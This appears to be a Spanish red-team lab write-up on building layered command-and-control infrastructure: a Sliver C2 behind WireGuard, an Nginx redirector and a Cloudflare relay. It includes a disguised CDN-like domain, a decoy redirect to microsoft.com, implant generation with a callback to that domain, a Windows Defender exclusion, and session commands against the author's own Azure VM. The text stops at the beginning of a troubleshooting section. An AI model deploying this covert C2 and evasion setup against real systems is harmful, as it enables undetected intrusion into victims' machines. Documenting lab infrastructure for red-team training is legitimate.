## Abstract

Este artículo documenta la construcción completa de **Vulpine Marrow**: una infraestructura de Comando y Control (C2) red team multicapa construida sobre recursos cloud gratuitos, hardware doméstico y protocolos open source. El stack final conecta un operador en WSL con un servidor Sliver C2 en Proxmox, enrutando tráfico de implants a través de Cloudflare como relay y Nginx en Oracle Cloud como redirector de Capa 7, todo dentro de túneles WireGuard cifrados.

El proyecto no es un laboratorio de "instala Metasploit y listo". Es una arquitectura de separación de capas real: el C2 nunca toca internet, las IPs reales quedan ocultas detrás de una CDN global, y el tráfico legítimo se mimetiza como tráfico de infraestructura CDN. El resultado: sesión activa en Windows 11 con el operador viendo una IP de Cloudflare donde debería estar la víctima, y la víctima viendo tráfico HTTPS a un dominio que parece infraestructura de Microsoft.

También documento los **8 errores reales** que tuve durante el deploy — desde un double-firewall invisible en Oracle hasta un mismatch de protocolos HTTP/HTTPS que mantuvo al beacon girando en vacío durante horas.

## 1. Filosofía de diseño: Relay vs Redirector

Antes de poner una sola VM en producción, hay que entender por qué la arquitectura distribuida existe. La respuesta directa: **el C2 expuesto directamente a internet es un C2 quemado en horas**. Los Blue Teams tienen OSINT, los investigadores de seguridad tienen Shodan, y las herramientas de threat intelligence mapean IPs activas en tiempo real. Si Sliver escucha en `0.0.0.0:443`, su IP aparece en alguna base de datos en 24h.

La solución es separación de capas. Cada nodo cumple exactamente una función:

| Componente | Rol | Expuesto a internet |
|------------|-----|---------------------|
| **Relay (Cloudflare)** | Mueve tráfico sin inspeccionarlo. Oculta la IP real del redirector. | Sí — es CDN global |
| **Redirector (Nginx / Oracle)** | Inspecciona tráfico en Capa 7. Decide si pasa al C2 o redirige al señuelo. | Sí — pero oculto por Cloudflare |
| **C2 (Sliver / Proxmox)** | Gestiona sessions, genera implants, recibe beacons. | **No** — solo accesible por WireGuard |

**Cloudflare actúa como relay**: el implant habla con IPs de Cloudflare (`104.21.x.x`, `172.67.x.x`), nunca con las IPs reales de Oracle. Esto significa que el Blue Team mirando logs de red solo ve tráfico HTTPS hacia infraestructura CDN conocida.

**Nginx actúa como redirector**: cuando el tráfico llega a Oracle, Nginx inspecciona la URI. Si coincide con el patrón del beacon de Sliver (`/assets/bundle/...`), hace `proxy_pass` al C2 por el túnel WireGuard. Cualquier otra petición —un scanner, el Blue Team, un investigador— recibe un `302 → https://www.microsoft.com`. Inocente.

Esta arquitectura viene documentada en el [Red Team Infrastructure Wiki de bluscreenofjeff](https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki), el documento de referencia para [[redteam-infraestructura-vs-malware|infra red team profesional]].

### Topología completa


```mermaid
graph TD
    OP["🖥️ RT-OP-Exegol<br/>ThinkPad WSL<br/><i>Operador</i>"]
    VIC["🎯 osseous-limbo<br/>Azure — Windows 11<br/><i>VM víctima</i>"]
    CF["☁️ Cloudflare<br/>Relay / DNS Proxy<br/>IPs 104.21.x.x"]
    IV["🔱 RT-RD-Ivory-Veil<br/>Oracle VM2 — Ubuntu<br/>Nginx Redirector"]
    SY["🔑 RT-VPN-Synapse<br/>Oracle VM1 — Ubuntu<br/>Jump Host + WireGuard"]
    PX["🏠 Proxmox<br/>Motherbase / LAN"]
    NM["💀 RT-C2-Nigredo-Marrow<br/>VM Debian 13<br/>Sliver C2"]

    VIC -->|"HTTPS edgedeliverynodes.app"| CF
    CF -->|"HTTPS :443"| IV
    IV -->|"WireGuard 10.9.0.x<br/>proxy_pass HTTP:8080"| NM
    OP -->|"SSH directo"| SY
    SY -->|"WireGuard RT-VPN-Athanor<br/>10.8.0.0/24"| PX
    PX --- NM
    OP -.->|"SSH ProxyJump via Synapse"| NM
```

### Flujo TLS — por qué no hay doble cifrado

```
Implant → HTTPS (TLS 1.3) → Cloudflare  [termina TLS aquí]
        → HTTPS (TLS 1.3) → Nginx Ivory-Veil  [termina TLS aquí]
        → HTTP            → WireGuard Tunnel  [WG cifra todo]
        → HTTP            → Sliver en Proxmox
```

WireGuard ya usa ChaCha20-Poly1305 con intercambio de claves Noise Protocol. Añadir TLS sobre ese canal sería overhead innecesario sin beneficio de seguridad real. El `proxy_pass` de Nginx habla HTTP plano sobre el túnel cifrado.

---

## 2. Nomenclatura: Conceptos alquimicos como sistema de naming

Los nombres internos siguen la lógica de textos esotericos — el proceso de transformación alquimica en cuatro fases: Nigredo, Albedo, Citrinitas, Rubedo. Es solo por estetica y darle algo de personalidad a un proyecto a priori tecnico y aburrido (no es mi caso, obvio).


| Componente | Nombre interno | Concepto alquímico | Función |
|------------|---------------|---------------------|---------|
| Oracle VM1 | `RT-VPN-Synapse` | La unión eléctrica | Jump host + WireGuard server |
| Oracle VM2 | `RT-RD-Ivory-Veil` | Albedo — superficie purificada externa | Nginx redirector C2 |
| Túnel gestión | `RT-VPN-Athanor` | El horno alquímico de fuego constante | WireGuard Synapse↔Proxmox |
| Sliver VM | `RT-C2-Nigredo-Marrow` | Nigredo: putrefacción. Marrow: tuétano | C2 server oculto |
| VCN Oracle | `Ouroboros-Net` | La serpiente que se muerde la cola | Red virtual OCI |
| Subnet pública | `Albedo-Fabric` | Capa externa purificada | Subnet pública Oracle |
| VM víctima | `osseous-limbo` | Estado entre planos, huesos en espera | Windows lab target |
| Operador | `RT-OP-Exegol` | — | ThinkPad WSL + Exegol |

**Regla crítica de OPSEC sobre naming:**

> Los nombres internos (Proxmox, `/etc/hosts`, configs locales) pueden ser crípticos o creativos. Los **externos** — dominios, certificados TLS, user-agents del beacon — deben mimetizarse con tráfico legítimo del objetivo.

**Dominio elegido:** `edgedeliverynodes.app`

Por qué funciona: suena a infraestructura CDN real. En logs corporativos nadie lo mira dos veces. Un analista viendo `HTTPS → edgedeliverynodes.app` en el SIEM no va a abrir un ticket de incidente de forma inmediata.

**Nunca usar** el dominio personal para infra red team. Está vinculado a identidad real y aparece en búsquedas de OSINT cruzadas.

---

## 3. Inventario de recursos

### Oracle Cloud Free Tier (Always Free)

| VM | Nombre | IP Pública | Shape | OCPU | RAM | Rol |
|----|--------|------------|-------|------|-----|-----|
| VM1 | RT-VPN-Synapse | `<SYNAPSE_PUB_IP>` | E2.1.Micro | 1 | 1 GB | Jump host + WireGuard |
| VM2 | RT-RD-Ivory-Veil | `<IVORY_VEIL_PUB_IP>` | E2.1.Micro | 1 | 1 GB | Nginx redirector |

> **Nota real:** Se intentó provisionar instancias ARM `VM.Standard.A1.Flex` (4 OCPU, 24 GB RAM en Always Free) pero Oracle devolvía "Out of Capacity" para la región Chile Central. Las `E2.1.Micro` x86_64 son suficientes para WireGuard y Nginx.

### Proxmox (motherbase)

| VM/LXC | ID | Nombre | IP LAN | Rol |
|--------|----|--------|--------|-----|
| LXC | 100 | adguard | 192.168.1.x | DNS local |
| LXC | 103 | tailscale | 192.168.1.x | Subnet router |
| VM | 115 | nigredo-marrow | 192.168.1.10 | **Sliver C2** |

### Azure (victim lab)

| VM | Nombre | IP | OS | Acceso |
|----|--------|-----|-----|--------|
| VM | osseous-limbo | `<OSSEOUS_LIMBO_IP>` | Windows 11 Pro Preview | Azure Bastion |

### Dominio y DNS

| Servicio | Detalle |
|---------|---------|
| Registrador | Name.com (GitHub Student Pack — gratis) |
| Dominio | `edgedeliverynodes.app` |
| DNS | Cloudflare (zona separada del dominio personal) |
| WHOIS Privacy | Activado |
| Certificado TLS | Let's Encrypt via certbot DNS-01 challenge |

### Redes WireGuard

| Túnel | Red | Servidor | Cliente | Función |
|-------|-----|----------|---------|---------|
| RT-VPN-Athanor | 10.8.0.0/24 | Synapse (10.8.0.1) | Proxmox (10.8.0.2) | Gestión operador |
| Canal C2 | 10.9.0.0/24 | Ivory-Veil (10.9.0.1) | Nigredo-Marrow (10.9.0.2) | Tráfico de beacons |


```mermaid
graph LR
    subgraph Athanor["RT-VPN-Athanor — 10.8.0.0/24"]
        SY["Synapse<br/>10.8.0.1<br/>WG server"]
        PX["Proxmox<br/>10.8.0.2<br/>WG client"]
    end
    subgraph C2Tunnel["Canal C2 — 10.9.0.0/24"]
        IV["Ivory-Veil<br/>10.9.0.1<br/>WG server"]
        NM["Nigredo-Marrow<br/>10.9.0.2<br/>WG client"]
    end
    SY <-->|"UDP 51820<br/>Gestión"| PX
    IV <-->|"UDP 51820<br/>C2 traffic"| NM
```

---

## 4. Fase 1 — Oracle Cloud VMs + WireGuard de gestión

### 4.1 Creación de VMs en OCI

**SSH key dedicada para la infra — nunca reutilizar claves personales:**

```bash
# En WSL — generar par ed25519 específico para RT
ssh-keygen -t ed25519 -C "RT-infra-2026" -f ~/.ssh/rt_ed25519
```

Guardar la clave privada en Bitwarden como tipo "SSH Key", no como nota de texto plano. La pública (`rt_ed25519.pub`) va en el campo correspondiente al crear las VMs en OCI.


_Clave ed25519 dedicada — nunca la clave del sistema operativo personal_

**Configuración de VMs — problema ARM inmediato:**

Al intentar `VM.Standard.A1.Flex` (la opción Always Free ARM con 4 OCPU + 24 GB RAM), Oracle devuelve "Out of Capacity" para Santiago. Sin demora, cambio a `VM.Standard.E2.1.Micro` x86_64:


_Oracle ARM agotado en la región — x86 E2.1.Micro como fallback_

```
Image:    Ubuntu 24.04 LTS minimal
Shape:    VM.Standard.E2.1.Micro (Always Free)
Network:  VCN Ouroboros-Net / Subnet Albedo-Fabric
SSH Key:  rt_ed25519.pub
```

**Configuración de red para cada VM:**


_VCN Ouroboros-Net, Subnet Albedo-Fabric pública_


_Subiendo la clave pública rt_ed25519.pub_


_50 GB boot volume — más que suficiente para WireGuard + Nginx_


_Synapse e Ivory-Veil: ambas en la misma VCN y subnet_

**`~/.ssh/config` en WSL — acceso directo a toda la infra:**

```
# Jump host público
Host synapse
    HostName <SYNAPSE_PUB_IP>
    User ubuntu
    IdentityFile ~/.ssh/rt_ed25519
    ServerAliveInterval 60

# Redirector público
Host ivory-veil
    HostName <IVORY_VEIL_PUB_IP>
    User ubuntu
    IdentityFile ~/.ssh/rt_ed25519
    ServerAliveInterval 60

# C2 interno — acceso siempre via ProxyJump
Host nigredo-marrow
    HostName 192.168.1.10
    User root
    IdentityFile ~/.ssh/rt_ed25519
    ProxyJump synapse
    ServerAliveInterval 60
```

El `ProxyJump` es fundamental: `nigredo-marrow` nunca escucha SSH en internet. El operador llega primero a Synapse y desde ahí "salta" al C2. Sin Synapse, sin acceso.


_Config SSH — tres hosts, un solo punto de entrada a la infra_

### 4.2 OCI Security List — Albedo-Fabric

Oracle tiene **dos capas de firewall independientes**: la Security List a nivel OCI y `iptables` a nivel OS. Ambas deben estar configuradas. Este fue el primer error no obvio del proyecto.

**Reglas Ingress en la Security List:**

| Protocolo | Puerto | Origen | Descripción |
|-----------|--------|--------|-------------|
| UDP | 51820 | `0.0.0.0/0` | WireGuard — Athanor y Canal C2 |
| TCP | 443 | `0.0.0.0/0` | HTTPS implants → Ivory-Veil |
| TCP | 80 | `0.0.0.0/0` | HTTP redirect a HTTPS |
| TCP | 22 | `<TU_IP_OPERADOR>/32` | SSH operador únicamente |

**Egress:** `All protocols → 0.0.0.0/0` (salida libre).


_Security List — ingress rules. Sin esto Oracle bloquea todo a nivel red_


_Regla UDP 51820 — el puerto WireGuard_

> **Por qué SSH solo desde tu IP:** El SSH expuesto a `0.0.0.0` en Oracle recibirá ataques de fuerza bruta en menos de una hora. Con `ed25519` y la regla restringida, el vector desaparece.

### 4.3 WireGuard RT-VPN-Athanor (Synapse ↔ Proxmox)

Este túnel es la columna vertebral de gestión. Permite al operador en WSL acceder a todo Proxmox sin que ningún puerto de Proxmox esté expuesto en internet.

**En RT-VPN-Synapse (servidor WireGuard):**

```bash
sudo apt update && sudo apt install -y wireguard

# Generar par de claves del servidor
sudo wg genkey | sudo tee /etc/wireguard/server_private.key | \
  sudo wg pubkey | sudo tee /etc/wireguard/server_public.key

sudo chmod 600 /etc/wireguard/server_private.key
```

**`/etc/wireguard/wg0.conf` en Synapse:**

```ini
[Interface]
Address = 10.8.0.1/24
ListenPort = 51820
PrivateKey = <SERVER_PRIVATE_KEY>

[Peer]
# Proxmox — cliente del túnel de gestión
PublicKey = <WG_PUBKEY_PROXMOX>
AllowedIPs = 10.8.0.2/32
```


_wg0.conf en Synapse — el servidor escucha en 10.8.0.1_

**En Proxmox host (cliente):**

```bash
apt update && apt install -y wireguard

wg genkey | tee /etc/wireguard/client_private.key | \
  wg pubkey | tee /etc/wireguard/client_public.key

chmod 600 /etc/wireguard/client_private.key
```

**`/etc/wireguard/wg0.conf` en Proxmox:**

```ini
[Interface]
Address = 10.8.0.2/24
PrivateKey = <CLIENT_PRIVATE_KEY>

[Peer]
# Synapse — servidor Athanor
PublicKey = <WG_PUBKEY_SYNAPSE>
Endpoint = <SYNAPSE_PUB_IP>:51820
AllowedIPs = 10.8.0.0/24
PersistentKeepalive = 25
```

`PersistentKeepalive = 25` es importante: Proxmox está detrás de NAT (LAN doméstica). Sin keepalive, el túnel cae cuando no hay tráfico.


_Generación de claves WireGuard en Proxmox_


_Configuración completa del peer en Proxmox_

**Arrancar ambos nodos:**

```bash
# En Synapse primero (servidor debe estar UP antes que el cliente)
sudo systemctl enable wg-quick@wg0
sudo systemctl start wg-quick@wg0

# Hacer iptables persistente (CRÍTICO en Oracle — ver sección de errores)
sudo apt install -y iptables-persistent
sudo iptables -I INPUT -p udp --dport 51820 -j ACCEPT
sudo netfilter-persistent save
```

```bash
# En Proxmox después
systemctl enable wg-quick@wg0
systemctl start wg-quick@wg0
```


_wg0 activo en Synapse — peer configurado esperando handshake_


_systemctl enable + start en Proxmox_


_wg-quick@wg0 activo en Synapse_

**Verificación del túnel:**

```bash
# Desde Proxmox hacia Synapse
ping 10.8.0.1

# Desde Synapse hacia Proxmox
ping 10.8.0.2

# Estado del túnel
wg show
```


_RT-VPN-Athanor operativo: Proxmox → Synapse_


_Bidireccional confirmado: Synapse → Proxmox_

---

## 5. Fase 2 — Sliver C2 en Proxmox

### 5.1 Crear VM nigredo-marrow

En el host Proxmox, usar el helper script de tteck para Debian VM:

```bash
bash -c "$(curl -fsSL https://raw.githubusercontent.com/community-scripts/ProxmoxVE/main/vm/debian-13-vm.sh)"
```

**Parámetros elegidos en el wizard:**

```
Hostname:  nigredo-marrow
OS:        Debian 13 Trixie
CPU:       2 vCPU KVM64
RAM:       4096 MB
Disk:      40 GB NVMe
Bridge:    vmbr0
VM ID:     115
IP:        192.168.1.10/24
Gateway:   192.168.1.1
```


_VM 115 — nigredo-marrow. Sliver C2 nunca tendrá IP pública_

**Post-instalación via consola Proxmox:**

```bash
apt update && apt install -y openssh-server
systemctl enable --now ssh

# Añadir clave pública del operador
mkdir -p ~/.ssh && chmod 700 ~/.ssh
echo "<rt_ed25519.pub content>" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

Desde este punto, el acceso es via `ssh nigredo-marrow` usando el ProxyJump configurado en el `~/.ssh/config`.

### 5.2 Instalar Sliver C2

[Sliver](https://github.com/BishopFox/sliver) es el framework C2 open source de BishopFox. Escrito en Go, multiplataforma, con soporte para múltiples protocolos de transporte (HTTP/S, DNS, WireGuard, mTLS) y generación de implants para Windows, Linux y macOS.

```bash
# Dependencias mínimas
apt update && apt install -y curl wget git

# Instalación via script oficial
curl https://sliver.sh/install | sudo bash

# Verificar instalación
which sliver-server
sliver-server version
```


_apt install en nigredo-marrow — base limpia Debian 13_


_curl https://sliver.sh/install descargando y compilando_


_Sliver v1.x instalado y operativo en nigredo-marrow_

### 5.3 WireGuard Canal C2 (Ivory-Veil ↔ Nigredo-Marrow)

Este segundo túnel WireGuard es el canal por donde viaja el tráfico de los beacons desde el redirector hasta el C2. Es independiente del túnel de gestión.

**En RT-RD-Ivory-Veil (servidor del canal C2):**

```bash
sudo apt install -y wireguard

sudo wg genkey | sudo tee /etc/wireguard/c2_private.key | \
  sudo wg pubkey | sudo tee /etc/wireguard/c2_public.key

sudo chmod 600 /etc/wireguard/c2_private.key
```

**`/etc/wireguard/wg0.conf` en Ivory-Veil:**

```ini
[Interface]
Address = 10.9.0.1/24
ListenPort = 51820
PrivateKey = <IVORY_VEIL_C2_PRIVATE_KEY>

[Peer]
# Nigredo-Marrow — Sliver C2
PublicKey = <WG_PUBKEY_NIGREDO_MARROW>
AllowedIPs = 10.9.0.2/32
```


_Ivory-Veil configurado como servidor del canal C2 en 10.9.0.1_

**En nigredo-marrow (cliente del canal C2):**

```bash
apt install -y wireguard

wg genkey | tee /etc/wireguard/c2_private.key | \
  wg pubkey | tee /etc/wireguard/c2_public.key

chmod 600 /etc/wireguard/c2_private.key
```

**`/etc/wireguard/wg0.conf` en nigredo-marrow:**

```ini
[Interface]
Address = 10.9.0.2/24
PrivateKey = <NIGREDO_MARROW_C2_PRIVATE_KEY>

[Peer]
# Ivory-Veil — redirector
PublicKey = <WG_PUBKEY_IVORY_VEIL>
Endpoint = <IVORY_VEIL_PUB_IP>:51820
AllowedIPs = 10.9.0.0/24
PersistentKeepalive = 25
```


_nigredo-marrow como cliente del canal C2 — apunta a Ivory-Veil como endpoint_

**Arrancar canal C2:**

```bash
# En Ivory-Veil — servidor primero
sudo systemctl enable wg-quick@wg0
sudo systemctl start wg-quick@wg0

# Abrir puerto WireGuard en iptables (IPv4 + IPv6)
sudo iptables -I INPUT -p udp --dport 51820 -j ACCEPT
sudo ip6tables -I INPUT -p udp --dport 51820 -j ACCEPT
sudo apt install -y iptables-persistent
sudo netfilter-persistent save
```

```bash
# En nigredo-marrow — cliente después
systemctl enable wg-quick@wg0
systemctl start wg-quick@wg0

# Verificar
wg show
ping 10.9.0.1
```

### 5.4 Configurar listener Sliver en interfaz WireGuard

```bash
# Acceder al C2 via ProxyJump
ssh nigredo-marrow

# Iniciar consola Sliver
sliver-server
```

```
# Dentro de la consola — listener HTTP en la IP del túnel WireGuard
[127.0.0.1] sliver > http --lhost 10.9.0.2 --lport 8080

# Verificar que el job está activo
[127.0.0.1] sliver > jobs

 ID  Name  Protocol  Port
==== ===== ========= ====
 1   http  tcp       8080
```


_Sliver C2 con listener HTTP en 10.9.0.2:8080 — nunca en 0.0.0.0_

**Por qué HTTP y no HTTPS internamente:** WireGuard ya cifra todo el canal con ChaCha20-Poly1305. Poner TLS sobre WireGuard sería doble cifrado sin ningún beneficio de seguridad, solo overhead computacional. El `proxy_pass http://` de Nginx es correcto aquí.

---

## 6. Fase 3 — Redirector: Cloudflare + Nginx + Let's Encrypt

### 6.1 Dominio y DNS en Cloudflare

**Dominio registrado en Name.com** via GitHub Student Developer Pack (gratis con correo .edu o verificación estudiantil):


_edgedeliverynodes.app registrado — WHOIS Privacy activado desde el primer día_

**Añadir a Cloudflare:**

1. `dash.cloudflare.com` → Add a site → `edgedeliverynodes.app`
2. Plan Free
3. Cloudflare entrega dos nameservers (`*.ns.cloudflare.com`)
4. En Name.com → Manage Nameservers → reemplazar los originales por los de Cloudflare

**Registros DNS en Cloudflare:**

| Type | Name | Content | Proxy status |
|------|------|---------|-------------|
| A | `@` | `<IVORY_VEIL_PUB_IP>` | ✅ Proxied (nube naranja) |
| A | `cdn` | `<IVORY_VEIL_PUB_IP>` | ✅ Proxied (nube naranja) |


_Ambos registros con proxy activo — la IP real de Ivory-Veil queda oculta_

**La nube naranja es crítica.** Sin proxy, cualquier `dig edgedeliverynodes.app` devuelve la IP real de Oracle. Con proxy, devuelve IPs de Cloudflare. La IP de Ivory-Veil queda invisible.

### 6.2 SSL/TLS Full Strict en Cloudflare

Después de instalar el certificado en Ivory-Veil (siguiente paso), configurar SSL/TLS en **Full (strict)**:


_Full (strict): Cloudflare valida el certificado en Ivory-Veil. Evita ataques MITM en el segmento Cloudflare→Oracle_

| Modo | Comportamiento |
|------|---------------|
| Off | HTTP plano. Nunca usar. |
| Flexible | Cloudflare a origen por HTTP. Evitar. |
| Full | TLS al origen pero sin validar el certificado. |
| **Full (strict)** | TLS al origen **con** certificado válido. Usar siempre. |

### 6.3 Certificado Let's Encrypt via DNS-01 challenge

El challenge HTTP estándar de certbot **no funciona con Cloudflare en modo proxy**. Cuando certbot intenta validar el ownership via `/.well-known/acme-challenge/`, Cloudflare intercepta la petición antes de que llegue a Nginx. El challenge falla con error 523.

**Solución: DNS-01 challenge** — certbot crea un registro TXT temporal en Cloudflare vía API para demostrar ownership. No depende de HTTP.

**Crear API Token en Cloudflare:**

```
Profile → API Tokens → Create Token → Edit zone DNS
Permissions: Zone → DNS → Edit
Zone Resources: Include → Specific zone → edgedeliverynodes.app
```

**En Ivory-Veil:**

```bash
sudo apt update && sudo apt install -y certbot python3-certbot-dns-cloudflare

# Crear archivo de credenciales
sudo mkdir -p /etc/letsencrypt/cloudflare
sudo nano /etc/letsencrypt/cloudflare/credentials.ini
```

```ini
dns_cloudflare_api_token = <TU_CLOUDFLARE_API_TOKEN>
```

```bash
sudo chmod 600 /etc/letsencrypt/cloudflare/credentials.ini

# Solicitar certificado — propagation-seconds 60 para dar tiempo al DNS
sudo certbot certonly \
  --dns-cloudflare \
  --dns-cloudflare-credentials /etc/letsencrypt/cloudflare/credentials.ini \
  --dns-cloudflare-propagation-seconds 60 \
  -d edgedeliverynodes.app \
  -d cdn.edgedeliverynodes.app \
  --preferred-challenges dns-01
```

El flag `--dns-cloudflare-propagation-seconds 60` es importante: la propagación de registros TXT en DNS distribuido tiene latencia. Sin esa espera, Let's Encrypt valida antes de que el registro TXT haya propagado y el challenge falla con NXDOMAIN.


_certbot DNS-01 exitoso — certificados en /etc/letsencrypt/live/_

```
Certificados generados en:
  /etc/letsencrypt/live/edgedeliverynodes.app/fullchain.pem
  /etc/letsencrypt/live/edgedeliverynodes.app/privkey.pem
```

### 6.4 Nginx como redirector C2 en Capa 7

La diferencia entre un redirector Layer 4 (iptables DNAT) y uno Layer 7 (Nginx) es fundamental. Un DNAT reenvía todo el tráfico ciegamente al C2. Nginx puede inspeccionar la URI, los headers, el User-Agent, y decidir:

- ¿Es el beacon? → `proxy_pass` al C2
- ¿Es un scanner / Blue Team? → `302` al señuelo

**`/etc/nginx/sites-available/edgedeliverynodes`:**

```nginx
# Redirigir HTTP a HTTPS
server {
    listen 80;
    listen [::]:80;
    server_name edgedeliverynodes.app cdn.edgedeliverynodes.app;
    return 301 https://$host$request_uri;
}

server {
    listen 443 ssl;
    listen [::]:443 ssl;
    server_name edgedeliverynodes.app cdn.edgedeliverynodes.app;

    ssl_certificate     /etc/letsencrypt/live/edgedeliverynodes.app/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/edgedeliverynodes.app/privkey.pem;

    # Tráfico NO-C2 → redirige a sitio legítimo (señuelo)
    location / {
        return 302 https://www.microsoft.com;
    }

    # URIs de Sliver → proxy_pass al C2 por WireGuard
    location ~* ^/(assets|bundle)/ {
        proxy_pass http://10.9.0.2:8080;
        proxy_set_header Host              $host;
        proxy_set_header X-Forwarded-For   $proxy_add_x_forwarded_for;
        proxy_set_header X-Real-IP         $remote_addr;
    }
}
```

**Por qué `^/(assets|bundle)/`:** Sliver genera URIs como `/assets/bundle/app.js`, `/bundle/assets/data.json`. Estas rutas son el patrón por defecto del framework. El Nginx solo abre paso a esas rutas específicas — todo lo demás al señuelo.


_Config Nginx inicial en Ivory-Veil_

```bash
# Activar el site
sudo ln -s /etc/nginx/sites-available/edgedeliverynodes \
           /etc/nginx/sites-enabled/
sudo rm /etc/nginx/sites-enabled/default

# Abrir puertos TCP 80 y 443 en iptables (IPv4 + IPv6)
sudo iptables -I INPUT -p tcp --dport 443 -j ACCEPT
sudo iptables -I INPUT -p tcp --dport 80  -j ACCEPT
sudo ip6tables -I INPUT -p tcp --dport 443 -j ACCEPT
sudo ip6tables -I INPUT -p tcp --dport 80  -j ACCEPT
sudo netfilter-persistent save

# Habilitar IP forwarding para el proxy
sudo sysctl -w net.ipv4.ip_forward=1
echo "net.ipv4.ip_forward=1" | sudo tee -a /etc/sysctl.conf

# Validar config y recargar
sudo nginx -t && sudo systemctl reload nginx
```


_Ajustes finales de Nginx: location blocks, proxy_pass al túnel WireGuard_


_net.ipv4.ip_forward=1 persistente en sysctl.conf_

**Verificación del redirector con curl:**

```bash
# Prueba desde WSL local
# Una URI que NO coincide con C2 → debe dar 302 → microsoft.com
curl -I https://edgedeliverynodes.app/

# Una URI que SÍ coincide → debe llegar al listener Sliver (HTTP 200 o similar)
curl -I https://edgedeliverynodes.app/assets/bundle/app.js
```


_curl -I confirmando el redirector operativo_


_El redirector responde correctamente — señuelo activo para no-C2 traffic_

---

## 7. Fase 4 — VM víctima y verificación end-to-end

### 7.1 VM osseous-limbo en Azure

Para la verificación end-to-end, uso una VM en Azure con créditos de GitHub Student Pack:

```
Nombre:    osseous-limbo
OS:        Windows 11 Pro Preview (ARM64)
Size:      Standard D2s v3 (2 vCPU, 8 GB RAM)
IP:        <OSSEOUS_LIMBO_IP>
Región:    Canada Central
Acceso:    Azure Bastion (sin RDP expuesto a internet)
NSG:       Sin puertos expuestos al exterior
```


_osseous-limbo en Azure — Azure Bastion como único vector de acceso_

> **Buena práctica de lab:** Nunca ejecutar implants en la máquina del operador. Siempre en una VM aislada, dedicada y destruible.

### 7.2 Generar implant en Sliver

```bash
ssh nigredo-marrow
sliver-server
```

```
[127.0.0.1] sliver > generate \
    --http edgedeliverynodes.app \
    --os windows \
    --arch amd64 \
    --format exe \
    --save /tmp/beacon.exe
```

Output esperado tras la compilación:

```
[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:45
[*] Implant saved to /tmp/beacon.exe
```

```
[127.0.0.1] sliver > implants

 Name              Implant Type   OS/Arch          Format      C2
================== ============== ================ =========== ===========================
 DELICIOUS_BONNET  session        windows/amd64    EXECUTABLE  https://edgedeliverynodes.app
```


_Sliver compilando beacon.exe — callback a edgedeliverynodes.app_

### 7.3 Transferir implant a osseous-limbo

**Método elegido: GitHub Release en repo privado** — funciona sin exponer el beacon en ningún servicio de file-sharing público.

```bash
# En WSL — copiar beacon desde nigredo-marrow
scp nigredo-marrow:/tmp/beacon.exe /tmp/beacon.exe

# Comprimir (Defender bloquea .exe en descarga, .zip da unos segundos más)
cd /tmp && zip beacon.zip beacon.exe
```

Subir como Release en repo privado de GitHub. En osseous-limbo via Azure Bastion:

```powershell
$token    = "<GITHUB_PAT_TEMPORAL>"
$repo     = "USUARIO/repo-privado"
$tag      = "v0.1"
$filename = "beacon.zip"
$outPath  = "C:\Users\adminpro\Desktop\beacon.zip"

# 1. Obtener metadata del release via API (no via URL web)
$headersApi = @{
    Authorization = "Bearer $token"
    Accept        = "application/vnd.github.v3+json"
}

$releaseInfo = Invoke-RestMethod `
    -Uri "https://api.github.com/repos/$repo/releases/tags/$tag" `
    -Headers $headersApi

$assetUrl = ($releaseInfo.assets | Where-Object { $_.name -eq $filename }).url

# 2. Descargar el binario puro (requiere Accept: application/octet-stream)
$headersDownload = @{
    Authorization = "Bearer $token"
    Accept        = "application/octet-stream"
}

Invoke-WebRequest -Uri $assetUrl -Headers $headersDownload -OutFile $outPath
Expand-Archive $outPath -DestinationPath "C:\Users\adminpro\Desktop\"
```

Por qué dos headers diferentes: la API de GitHub devuelve JSON con el `url` real del asset. Descargando directamente la URL web obtienes el HTML de login. Con `application/octet-stream` sobre el `url` del asset, obtienes el binario.

> **OPSEC:** Revocar el PAT inmediatamente tras la descarga. No dejar implants en repositorios, aunque sean privados, más tiempo del necesario.


_Beacon descargado en osseous-limbo via API de GitHub — PAT revocado post-descarga_

### 7.4 Primer intento — Defender detecta el beacon

```
[!] Windows Defender eliminó beacon.exe al descomprimir
    Threat: Trojan:Win64/Sliver
```


_Defender bloquea en pre-ejecución — firma estática de Golang + strings de Sliver conocidos_

Sliver compilado con configuración por defecto tiene firmas ampliamente catalogadas en bases de datos AV. El binary incluye strings del framework como `sliver/implant`, path metadata de Go, y estructuras PE predecibles.

Para el propósito de este lab (verificar que el canal C2 funciona, no la evasión AV), la solución temporal es excluir el directorio del Desktop de Defender:

```powershell
# Solo en entorno de lab — nunca en engagement real
Add-MpPreference -ExclusionPath "C:\Users\adminpro\Desktop"
```


_Add-MpPreference excluyendo el Desktop — beacon.exe ejecuta sin interferencia_

### 7.5 Resultado — Sesión activa

```
[*] Session [REDACTED] DELICIOUS_BONNET - tcp(10.9.0.1:[PORT])->172.71.120.58 (osseous-limbo) - windows/amd64
```

La IP `172.71.120.58` es una IP de Cloudflare. La IP real de osseous-limbo (`<OSSEOUS_LIMBO_IP>`) es invisible en el C2.


_Sesión activa en Sliver — Cloudflare como proxy total, IP real de víctima oculta_

**Comandos de post-explotación básica:**

```
[127.0.0.1] sliver > sessions

 ID         Name             Transport   Remote Address       Hostname       Username   OS
========== ================ =========== ==================== ============== ========== ===========
 [REDACTED] DELICIOUS_BONNET http(s)     172.71.120.58:[PORT] osseous-limbo  adminpro   windows/amd64

[127.0.0.1] sliver > use [SESSION_ID]

[DELICIOUS_BONNET] sliver > whoami
[DELICIOUS_BONNET] sliver > sysinfo
[DELICIOUS_BONNET] sliver > ps
[DELICIOUS_BONNET] sliver > pwd
```

**Limpiar artefactos después del lab:**

```bash
# En nigredo-marrow — sobrescritura segura antes de liberar inodo
shred -u -z -n 3 /tmp/beacon.exe /tmp/beacon.zip
```

`shred` con `-n 3` sobrescribe el contenido 3 veces antes de desvincular el inodo. `rm` estándar solo desvincula el nombre — el contenido persiste en el espacio no asignado del disco y es recuperable forensemente.

---

## 8. Fricciones reales y sus resoluciones

Esta sección documenta los errores reales encontrados durante el deploy. No están embellecidos ni editados por supervivorship bias — si el problema tomó horas en diagnósticar, lo digo.

### Error 1 — ARM no disponible en Oracle (⏱ 15 min)

**Síntoma:** `VM.Standard.A1.Flex` (ARM, 4 OCPU + 24 GB Always Free) devuelve "Out of Capacity" en Chile Central.

**Diagnóstico:** Oracle limita las instancias ARM por región. La región Santiago tiene poca capacidad disponible.

